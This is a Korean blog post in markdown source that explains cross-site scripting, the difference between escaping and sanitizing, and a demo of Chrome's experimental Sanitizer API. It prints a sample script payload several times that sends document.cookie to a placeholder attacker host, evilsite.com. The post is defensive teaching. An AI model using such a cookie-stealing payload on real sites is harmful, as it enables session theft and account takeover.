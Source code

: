```yaml
---
title: HTML Sanitizer API 사용해보기
description: 이제 Sanitizer도 표준으로, 플러그인 없이!
layout: blogpost
author: 이종우
email: jongwoo@studia.blue
date: 2022/01/04
categories: web
---
```


# Sanitizing이란?

예를 들어, 제가 게시판이 있는 웹사이트를 운영한다고 합시다. 회원은 로그인을 해야 글을 올릴 수 있고, '로그인 유지' 기능을 통해 `OAuth` 토큰은 브라우저에 쿠키로 저장되는, 전형적인 온라인 게시판의 예입니다. (사실 일반적인 게시판보다는 훨씬 보안이 약한 사이트이기는 합니다.)

어느 날, 해커가 웹사이트에 접속해 다음과 같은 글을 올립니다.
```plaintext
<script>window.open("http://evilsite.com/cookies.php?cookie="+EncodeURIComponent(document.cookie));</script>
```
만약 방문자가 이 게시글을 클릭한다면 스크립트가 실행되고, 해커가 방문자의 쿠키를 빼낼 수 있을 것입니다. 게다가 `OAuth` 인증 토큰이 쿠키에 저장되어 있으면, 해커는 이 토큰으로 그 사람의 계정에 로그인할 수 있게 됩니다!

이러한 형태의 공격을 [XSS](https://ko.wikipedia.org/wiki/%EC%82%AC%EC%9D%B4%ED%8A%B8_%EA%B0%84_%EC%8A%A4%ED%81%AC%EB%A6%BD%ED%8C%85) (Cross-Site Scripting)이라고 부릅니다. 이를 방지하기 위한 방법에는 여러 가지가 있는데, 대표적으로 **escape**와 **sanitize**가 있습니다.

## Escape vs Sanitize

위의 예시를 통해 알아보죠.

위 예시의 XSS 코드를 `escape`하면 이렇게 됩니다.
```plaintext
&lt;script&gt;window.open(&quot;http://evilsite.com/cookies.php?cookie=&quot;+EncodeURIComponent(document.cookie));&lt;/script&gt;
```
괄호가 모두 `lt;`과 `gt;`으로 대체되어, 더 이상 HTML의 기능을 할 수 없게 되었습니다. 클라이언트 측에서는 코드가 텍스트로 표시될 것입니다.

반면, 위 코드를 `sanitize`하면 이렇게 됩니다.
```

```
Sanitizer (여기서는 DOMPurify를 실행한 결과입니다)가 `<script>` 태그를 인식하고, 아예 삭제해 버렸습니다. XSS의 기법은 여러 가지가 있기 때문에 `javascript:`으로 시작하는 URL, `onload`와 같은 event listener 등 고려할 점이 많습니다. 보통은 [DOMPurify](https://github.com/cure53/DOMPurify)와 같은 라이브러리를 사용하는 것이 편하고 안전합니다.

{% include ad.html %}

# HTML Sanitizing API란?

클라이언트 측에서 (당연한 얘기지만, 서버 측에서도 다시 sanitize 해줘야 됩니다! 해커가 콘솔에서 POST 요청을 직접 보낼 수도 있으니까요!) Sanitize를 할 때는 라이브러리를 사용하는 것이 일반적입니다. 그러나 이렇게 되면 로딩이 더 길어지고 사이트가 더 무거워진다는 단점이 있습니다.

이를 극복하고자 Sanitizer 기능이 브라우저에 기본적으로 탑재된 `Sanitizing API`가 공개되었습니다! 아직은 정식 지원은 아니지만, 궁금하니 한 번 사용해 보도록 하겠습니다.

## 1. 브라우저 실험적 기능 활성화하기

아직 본 기능은 정식으로 지원되는 것이 아닌, **실험적 기능** 입니다. 실제 개발에 사용하시면 안돼요!

![Sanitizer Flag](/assets/img/sanitizer-flag.png)

우선, chrome://flags 주소로 이동하여 검색창에 'Sanitizer API'라고 입력합니다. 이 항목의 드롭다운에서 'Default'를 'Enabled'로 바꾸고 안내에 따라 브라우저를 relaunch 하면 실험적 기능을 사용해 볼 수 있습니다. 필자는 Chrome Dev 기준으로 본 포스트를 작성했습니다.

## 2. 실험적 기능 사용해 보기!

<div style="width: 100%; border: 2px solid #ddd; padding: 10px;">
<p style="font-family: Arial, sans-serif; font-size: 17px; margin: 10px 0 5px 0;">Insert dirty code below:</p>
<textarea style="width: 100%; height: 150px; border: 2px solid #ddd; border-radius: 0; outline: none;" id="dirty"></textarea>

<p style="font-family: Arial, sans-serif; font-size: 17px; margin: 10px 0 5px 0;">Sanitized output:</p>
<div style="width: 100%; height: 150px; border: 2px solid #ddd; border-radius: 0; outline: none;" id="clean"></div>

<script>
var dirty = document.getElementById("dirty");
var clean = document.getElementById("clean");

dirty.addEventListener('input', function() {
  if(typeof Sanitizer != 'undefined') {
    var dirty_content = dirty.value;
    clean.setHTML(dirty_content, new Sanitizer())
  } else {
    alert("Sanitizer을 사용할 수 없음. 실험적 기능을 설정해 주세요.")
  }
})
</script>
</div>

그냥 바로 위 칸에다 입력해 보시면 됩니다.

```plaintext
input:  xss <script>window.open("http://evilsite.com/cookies.php?cookie="+EncodeURIComponent(document.cookie));</script> test
output: xss  test
```
잘 동작하네요!

{% include ad.html %}

## 3. 소스코드

```html
<textarea id="dirty"></textarea>
<div id="clean"></div>
```

```js
var dirty = document.getElementById("dirty");
var clean = document.getElementById("clean");

dirty.addEventListener('input', function() {
  if(typeof Sanitizer != 'undefined') {
    var dirty_content = dirty.value;
    clean.setHTML(dirty_content, new Sanitizer())
  } else {
    alert("Sanitizer을 사용할 수 없음. 실험적 기능을 설정해 주세요.")
  }
})
```
코드는 이게 다입니다!

새로운 Sanitizer API에서는 다른 라이브러리와 달리 string to string 변환을 하지 않습니다. 대신 `setHTML`을 이용해 변환을 하도록 되어 있습니다. 그 이유는 같은 HTML이라도 들어가는 요소에 따라 sanitizing의 결과가 달라지기 때문입니다.

## 4. 지원 범위

![Sanitizer API on caniuse.com](/assets/img/sanitizer-caniuse.png)

온통 빨간색이네요.

지금은 개발에 써서는 안되는 기능입니다.